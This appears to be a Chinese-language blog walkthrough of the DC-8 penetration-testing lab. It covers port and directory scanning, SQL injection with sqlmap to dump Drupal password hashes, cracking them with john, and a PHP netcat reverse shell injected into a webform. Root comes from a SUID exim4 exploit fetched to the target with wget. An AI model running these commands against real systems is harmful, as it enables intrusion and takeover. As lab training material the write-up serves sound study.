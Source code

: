 ```yaml
---
layout: post
title: DC-8
subtitle: DC-8
date: 2025-07-17 09:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. 信息搜集

扫描IP，发现主机 `192.168.163.131`

![image.png](https://img.ghostliner.top/WUE7BR.png)

扫描端口发现80和22端口

```shell
nmap -T4 -A -p- 192.168.163.131
```

![image.png](https://img.ghostliner.top/YDtSmm.png)

目录扫描发现登录地址 `/user/login/`

```shell
dirsearch -u http://192.168.163.131 -e* -i 200
```

![image.png](https://img.ghostliner.top/3yhHXh.png)

指纹识别，发现站点为 `Drupal 7`

```shell
whatweb -v http://192.168.163.131
```

![image.png](https://img.ghostliner.top/Ut8ZAj.png)

浏览器查看站点地址： <http://192.168.163.131/?nid=1>

`nid=1'` 测试发现存在sql注入

![image.png](https://img.ghostliner.top/pJ82cf.png)

## 2. 渗透测试

#### 2.1.1. 数据库爆破

sqlmap爆破数据库，获取用户名密码

```shell
# 获取当前数据库
sqlmap -u http://192.168.163.131/?nid=1 --current-db --batch
# 获取数据库表
sqlmap -u http://192.168.163.131/?nid=1 -D d7db --tables
# 获取表中列
sqlmap -u http://192.168.163.131/?nid=1 -D d7db -T users --columns
# 获取用户名，密码
sqlmap -u http://192.168.163.131/?nid=1 -D d7db -T users -C name,pass --dump
```

数据库名：`d7db`
![image.png](https://img.ghostliner.top/c6ezx6.png)

数据库中users表的列名，发现其中有 `name`, `pass`
![image.png](https://img.ghostliner.top/V508yv.png)

获取到用户名、密码
![image.png](https://img.ghostliner.top/2Ox8LF.png)

`$S`为`Drupal`的密码哈希加密格式，尝试用 `john` 破解

```shell
echo '$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z' > john.txt
echo '$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF' >> john.txt
john john.txt
# turtle
```

#### 2.1.2. 反弹shell

使用用户名：john，密码：turtle 登录成功，浏览网站

在此页面发现可以注入PHP代码： <http://192.168.163.131/node/3#overlay-context=user/2&overlay=node/3/webform/configure>

添加反弹shell代码

```php
<?php exec('nc -nv 192.168.163.132 4444 -c /bin/bash');?>
```

![image.png](https://img.ghostliner.top/J24lVZ.png)

kali开启监听，浏览器访问`Contact Us` 页面，提交内容后，kali成功连接到shell

![image.png](https://img.ghostliner.top/WdaAm9.png)

#### 2.1.3. 提权

`sudo -l` 提权失败，尝试find提权

```shell
find / -user root -perm -4000 -type f 2> /dev/null
```

发现 `/usr/sbin/exim4`

![image.png](https://img.ghostliner.top/gm1yev.png)

查看`exim4`版本为：4.89

![image.png](https://img.ghostliner.top/jwMu1W.png)

搜索相关漏洞

```shell
searchexploit exim
```

![image.png](https://img.ghostliner.top/ppHChf.png)

使用 `46996.sh`脚本，将其传输到目标机

```shell
# 复制到当前目录
searchexploit -m 46996
```

查看内容，发现两种使用方法

方法1：`-m setuid`
![image.png](https://img.ghostliner.top/CQexEH.png)

方法2：`-m netcat`
![image.png](https://img.ghostliner.top/qEb0I1.png)

将 `46996.sh`传输到目标机

```shell
# 开启http服务
python -m http.server 8000
# 目标机获取脚本
wget http://192.168.163.132:8000/46996.sh
# 添加执行权限
chmod +x 46996.sh
# 提权方法1
./46996.sh -m setuid
# 提权方法2
./46996.sh -m netcat
```

方法1提权失败
![image.png](https://img.ghostliner.top/8zuEL4.png)

方法2提权成功
![image.png](https://img.ghostliner.top/Ko5DKw.png)

#### 2.1.4. 获取flag

root目录下获取到flag文件
![image.png](https://img.ghostliner.top/cNlIz1.png)
